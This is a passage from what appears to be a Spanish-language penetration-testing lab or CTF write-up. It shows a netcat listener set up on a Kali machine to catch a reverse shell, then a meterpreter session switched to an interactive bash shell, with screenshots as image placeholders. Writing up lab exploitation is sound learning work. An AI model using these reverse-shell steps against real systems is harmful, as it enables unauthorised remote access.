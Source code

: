 ![](img/Pasted%20image%2020241225222310.png)


Pero antes de ejecutar el comandos que nos enviará una `reverse shell`, nos ponemos en nuestra máquina KALI a la escucha con `netcat`, por el puerto que especificamos.
```
nc -nlvp 1234
```

![](img/Pasted%20image%2020241225222440.png#center)


En la sesión de `meterpreter` que obtuvimos con la explotación de la máquina vamos a cambiarnos a una `shell` y iniciamos con una `bash`
```
shell
/bin/bash -i
```

![](img/Pasted%20image%2020241225222748.png#center)
